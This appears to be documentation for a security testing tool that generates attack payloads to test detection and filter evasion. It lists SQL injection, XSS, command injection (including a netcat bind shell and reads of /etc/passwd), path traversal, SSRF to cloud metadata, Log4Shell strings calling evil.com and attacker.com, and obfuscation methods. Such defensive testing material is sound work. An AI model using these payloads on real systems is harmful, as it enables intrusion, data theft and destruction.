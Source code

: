 1. **SQL Injection (SQLi)**:
   - Union-based attacks: `UNION SELECT username, password FROM users`
   - Boolean-based: `admin' OR '1'='1`
   - Time-based: `WAITFOR DELAY '0:0:5'`
   - Stacked queries: `SELECT * FROM users; DROP TABLE users`

2. **Cross-Site Scripting (XSS)**:
   - Reflected XSS: `<script>alert('XSS')</script>`
   - Stored XSS: `<img src=x onerror=alert(1)>`
   - DOM-based XSS: `javascript:alert('XSS')`
   - Encoded variants: `%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E`

3. **Command Injection**:
   - Command chaining: `; cat /etc/passwd`
   - Subprocess execution: `$(cat /etc/passwd)`
   - PowerShell commands: `powershell -c "Get-Process"`
   - Netcat backdoors: `nc -l -p 1337 -e /bin/bash`

4. **Path Traversal**:
   - Directory traversal: `../../../etc/passwd`
   - Windows paths: `..\..\..\windows\system32\config\sam`
   - URL-encoded: `..%2F..%2F..%2Fetc%2Fpasswd`

5. **Server-Side Request Forgery (SSRF)**:
   - Internal services: `http://localhost:8080/admin`
   - Cloud metadata: `http://169.254.169.254/latest/meta-data/`
   - File schemes: `file:///etc/passwd`

6. **Log4Shell**:
   - JNDI injection: `${jndi:ldap://evil.com/a}`
   - DNS lookup: `${jndi:dns://evil.com/poc}`
   - RMI calls: `${jndi:rmi://attacker.com/exploit}`

### Obfuscation Techniques

To test anti-evasion capabilities, attacks are generated with various obfuscation methods:

1. **Encoding Layers**:
   - URL encoding: `SELECT` → `%53%45%4C%45%43%54`
   - Hex encoding: `<script>` → `3c7363726970743e`
   - Base64 encoding: Multiple layers

2. **Case Variation**:
   - Mixed case: `SeLeCt * FrOm UsErS`
   - Random casing: `sElEcT * FrOm uSeRs`

3. **Comment Insertion**:
   - SQL comments: `SEL/**/ECT * FR/**/OM users`
   - Inline comments: `SELECT/*comment*/*FROM users`

4. **Whitespace Manipulation**:
   - Multiple spaces: `SELECT  *  FROM  users`
   - Tab separation: `SELECT\t*\tFROM\tusers`
   - Newline injection: `SELECT\n*\nFROM\nusers`
